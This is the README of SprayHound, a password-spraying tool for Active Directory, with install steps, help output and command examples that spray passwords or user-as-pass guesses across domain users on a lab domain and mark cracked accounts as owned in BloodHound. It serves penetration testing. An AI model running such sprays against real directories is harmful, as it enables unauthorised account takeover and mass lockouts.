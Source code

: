 # SprayHound

[![PyPI version](https://d25lcipzij17d.cloudfront.net/badge.svg?id=py&type=6&v=0.0.3&x2=0)](https://pypi.org/project/sprayhound/) [![Twitter](https://img.shields.io/twitter/follow/hackanddo?label=HackAndDo&style=social)](https://twitter.com/intent/follow?screen_name=hackanddo)


![Example](https://raw.githubusercontent.com/Hackndo/sprayhound/master/asssets/example.gif)

Python library to safely password spray in Active Directory, set pwned users as owned in Bloodhound and detect path to Domain Admins


This library uses [ldap3](https://ldap3.readthedocs.io) project for all LDAP operations.

| Chapters                                     | Description                                             |
|----------------------------------------------|---------------------------------------------------------|
| [Requirements](#requirements)                | Requirements to install sprayhound                      |
| [Warning](#warning)                          | Before using this tool, read this                       |
| [Installation](#installation)                | Installation instructions                               |
| [Usage](#usage)                              | Usage and command lines examples                        |

## Requirements

* Python >= 3.6

## Warning

Only default domain policy is checked for now. If custom GPO is used for password policy, it won't be detected. That's some work in progress.


## Installation

### From pip

```bash
python3 -m pip install sprayhound
```

### From source

```bash
sudo apt-get install libsasl2-dev python3-dev libldap2-dev libssl-dev
git clone git@github.com:Hackndo/sprayhound.git
cd sprayhound
python3 setup.py install
```

## Usage

### Parameters

```bash
$ sprayhound -h

usage: sprayhound [-h] [-u USERNAME] [-U USERFILE]
                  [-p PASSWORD | --lower | --upper] [-t THRESHOLD]
                  [-dc DOMAIN_CONTROLLER] [-d DOMAIN] [-lP LDAP_PORT]
                  [-lu LDAP_USER] [-lp LDAP_PASS] [-lssl]
                  [-lpage LDAP_PAGE_SIZE] [-nh NEO4J_HOST] [-nP NEO4J_PORT]
                  [-nu NEO4J_USER] [-np NEO4J_PASS] [--unsafe] [--force]
                  [--nocolor] [-v]

sprayhound v0.0.1 - Password spraying

optional arguments:
  -h, --help            show this help message and exit
  --unsafe              Enable login tries on almost locked out accounts
  --force               Do not prompt for user confirmation
  --nocolor             Do not use color for output
  -v                    Verbosity level (-v or -vv)

credentials:
  -u USERNAME, --username USERNAME
                        Username
  -U USERFILE, --userfile USERFILE
                        File containing username list
  -p PASSWORD, --password PASSWORD
                        Password
  --lower               User as pass with lowercase password
  --upper               User as pass with uppercase password
  -t THRESHOLD, --threshold THRESHOLD
                        Number of password left allowed before locked out

ldap:
  -dc DOMAIN_CONTROLLER, --domain-controller DOMAIN_CONTROLLER
                        Domain controller
  -d DOMAIN, --domain DOMAIN
                        Domain FQDN
  -lP LDAP_PORT, --ldap-port LDAP_PORT
                        LDAP Port
  -lu LDAP_USER, --ldap-user LDAP_USER
                        LDAP User
  -lp LDAP_PASS, --ldap-pass LDAP_PASS
                        LDAP Password
  -lssl, --ldap-ssl     LDAP over TLS (ldaps)
  -lpage LDAP_PAGE_SIZE, --ldap-page-size LDAP_PAGE_SIZE
                        LDAP Paging size (Default: 200)

neo4j:
  -nh NEO4J_HOST, --neo4j-host NEO4J_HOST
                        Neo4J Host (Default: 127.0.0.1)
  -nP NEO4J_PORT, --neo4j-port NEO4J_PORT
                        Neo4J Port (Default: 7687)
  -nu NEO4J_USER, --neo4j-user NEO4J_USER
                        Neo4J user (Default: neo4j)
  -np NEO4J_PASS, --neo4j-pass NEO4J_PASS
                        Neo4J password (Default: neo4j)
```

### Unauthenticated

When used unauthenticated, **sprayhound** won't be able to check password policies. Account could be locked out.

```bash
# Single user, single password
sprayhound -u simba -p Pentest123.. -d hackn.lab -dc 10.10.10.1

# User list, single password
sprayhound -U ./users.txt -p Pentest123.. -d hackn.lab -dc 10.10.10.1

# User as pass
sprayhound -U ./users.txt -d hackn.lab -dc 10.10.10.1

# User as pass with password lowercase
sprayhound -U ./users.txt --lower -d hackn.lab -dc 10.10.10.1

# User as pass with password uppercase
sprayhound -U ./users.txt --upper -d hackn.lab -dc 10.10.10.1
```

### Authenticated

When providing a valid domain account, **sprayhound** will try and find default domain policy and check **badpwdcount** attribute of each user against lockout threshold. If too close, it will skip these accounts.

```bash
# Single user, single password
sprayhound -u simba -p Pentest123.. -d hackn.lab -dc 10.10.10.1 -lu pixis -lp P4ssw0rd

# All domain users, single password
sprayhound -p Pentest123.. -d hackn.lab -dc 10.10.10.1 -lu pixis -lp P4ssw0rd

# All domain users, single password, using an account from a trusted domain
sprayhound -p Pentest123.. -d hackn.lab -dc 10.10.10.1 -lu 'babdcatha.net\Babd' -lp P4ssw0rd

# User as pass on all domain users
sprayhound -d hackn.lab -dc 10.10.10.1 -lu pixis -lp P4ssw0rd

# User as pass with password lowercase
sprayhound --lower -d hackn.lab -dc 10.10.10.1 -lu pixis -lp P4ssw0rd

# User as pass with password uppercase
sprayhound --upper -d hackn.lab -dc 10.10.10.1 -lu pixis -lp P4ssw0rd
```

Difference between **badpwdcount** and lockout threshold can be tuned using `--threshold` parameter. If set to **2**, and password policy locks out accounts after 5 login failure, then **sprayhound** won't test users with **badpwdcount** 3 (and more).

```bash
sprayhound -d hackn.lab -dc 10.10.10.1 -lu pixis -lp P4ssw0rd --threshold 1
```

## Bloodhound integration

When **sprayhound** finds accounts credentials, it can set these accounts as **Owned** in BloodHound. BloodHound information should be provided to this tool.

```bash
# -nh: Neo4J server
# -nP: Neo4J port
# -nu: Neo4J user
# -np: Neo4J password
sprayhound -d hackn.lab -dc 10.10.10.1 -lu pixis -lp P4ssw0rd -nh 127.0.0.1 -nP 7687 -nu neo4j -np bloodhound
```


## Changelog

```
v0.0.2
------
First release
```
